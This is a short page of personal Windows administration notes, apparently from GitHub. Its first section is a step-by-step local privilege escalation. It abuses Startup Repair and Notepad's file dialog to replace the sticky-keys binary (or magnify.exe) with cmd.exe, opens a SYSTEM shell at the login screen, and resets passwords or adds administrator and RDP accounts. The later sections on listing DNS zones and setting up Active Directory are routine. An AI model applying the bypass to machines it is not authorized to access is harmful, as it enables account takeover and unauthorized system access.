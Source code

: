 ----------------------------------------------

**windows local privilege escalation**

* reboot
* disconnect power during splash, plug back in
* boot
* ` Launch startup repair (recommended)`
* on system restore dialog: ` Cancel` , Scan,
* on "Cannot repair automatically" dialog: ` View problem details`, click link to ` X:\Windows\System32\en-US\erofflps.txt`, it pops notepad
* `File>Open>C:\Windows\System32\`, set view to ` all files *.*`
* rename `Sethc`  to ` Sethc1`
* duplicate ` cmd`
* rename new `cmd` to ` Sethc`
* Press shift 5 times (opens cmd instead of Sethc sticky keys dialog) to test
* Reboot
* Wait for login prompt, press Shift 5 times,cmd opens
* ` whoami` should return `NT AUTHORITY\SYSTEM`
* `net user` to show available users*
* `net user $username *`
* type new password
* close cmd, login.

<http://ifconfig.dk/password/> Can also be done by booting live CD, copying `cmd.exe`  to `magnify.exe`,  reboot, click magnify icon. Commands: `net user username new_password`; `net user username password /add`, `net localgroup administrators username /add`, `net user username /delete`, `net localgroup Remote Desktop Users UserLoginName /add` (RDP); `net user commands Reference`

----------------------------------------------

**List DNS zones**

```powershell
$Zones = @(Get-DnsServerZone)
ForEach ($Zone in $Zones) {
	Write-Host "`n$($Zone.ZoneName)" -ForegroundColor "Green"
	$Zone | Get-DnsServerResourceRecord
}
```

----------------------------------------------

**Windows ADDS setup**

```
sconfig # configure host name/IP/subnet, set DNS to 127.0.0.1
Install-WindowsFeature AD-Domain-Services
Import-Module ADDSDeployment
Test-ADDSDomainControllerInstallation
Test-ADDSForestInstallation
Test-ADDSDomainInstallation
Install-ADDSForest
 -CreateDnsDelegation:$false
 -DatabasePath “C:\Windows\NTDS”
 -DomainMode “Win2012R2”
 -DomainName “yourdomain.com”
 -DomainNetbiosName “YOURDOMAIN”
 -ForestMode “Win2012R2”
 -InstallDns:$true
 -LogPath “C:\Windows\NTDS”
 -NoRebootOnCompletion:$false
 -SysvolPath “C:\Windows\SYSVOL”
 -Force:$true
```
